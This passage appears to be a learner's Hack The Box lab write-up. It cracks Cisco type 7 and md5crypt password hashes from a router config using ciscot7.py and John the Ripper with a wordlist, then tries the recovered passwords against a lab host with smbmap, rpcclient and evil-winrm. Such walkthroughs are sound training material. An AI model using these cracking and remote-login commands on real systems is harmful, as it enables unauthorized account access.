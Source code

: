     enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
    
    username rout3r password 7 0242114B0E143F015F5D1E161713
    username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
    
    “Thanks a lot. Also, please create an account for me on the windows server as I need to access the files.”
    
    Hazard may have a user account I can login to.
    

The config file has some passwords I can crack. 

I identified the types of hashes using https://hashes.com/en/tools/hash_identifier

They are cisco ios passwords. I found this script https://github.com/theevilbit/ciscot7/blob/master/ciscot7.py

Which I ran with the config.txt file to crack the passwords.

python3 [ciscot7.py](http://ciscot7.py/) -f config.txt

$uperP@ssword

Q4)sJu\Y8qz*A3?d

It did not crack the first hash, so I have to use a more advanced tool.

When looking up ways to crack cisco ios md5 hashes I found this: https://www.soldierx.com/tutorials/Using-John-Crack-Cisco-md5

echo 'enable_secret:$1$pdQG$o8nrSzsGXeaduXrjlvKc91' > hash.txt

john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

stealth1agent

Now that the passwords are cracked, I can try to access to host.

- smbmap -H 10.129.96.157 -u hazard -p 'stealth1agent’
    
    Disk                                                  	Permissions	Comment
    ----                                                  	-----------	-------
    ADMIN$                                            	NO ACCESS	Remote Admin
    C$                                                	NO ACCESS	Default share
    IPC$                                              	READ ONLY	Remote IPC
    

- rpcclient 10.129.96.157 -U hazard
    
    stealth1agent
    
    Unable to access much or find other users.
    

Since rpcclient brought no luck I’m going to try to use evilwinrm

ruby evil-winrm.rb -i 10.129.96.157 -u hazard -p 'stealth1agent’

Authorization error. None of the passwords work for hazard. 

Need to enumerate and find additional users

https://academy.hackthebox.com/module/143/section/1517
